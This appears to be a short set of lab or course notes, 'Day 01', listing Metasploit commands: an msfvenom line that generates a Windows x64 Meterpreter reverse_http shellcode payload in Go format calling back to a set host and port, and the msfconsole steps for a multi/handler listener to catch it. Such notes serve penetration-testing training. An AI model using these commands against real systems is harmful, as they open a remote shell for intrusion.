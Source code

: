<div align="center">
  <h1>Day 01</h1>
  <br/>
</div>

<h2>Metasploit commands:</h2>
<h3>Shellcode generation:</h3>
<ul>
<li>msfvenom -p windows/x64/meterpreter/reverse_http LHOST=10.10.61.38 LPORT=9999 -f go</li>
</ul>

<h3>Listener:</h3>
<ol>
<li>msfconsole</li>
<li>exploit/multi/handler</li>
<li>set payload windows/x64/meterpreter/reverse_http</li>
<li>set LHOST <Kali IP address></li>
<li>set LPORT <non-standard port></li>
<li>run</li>
</ol>
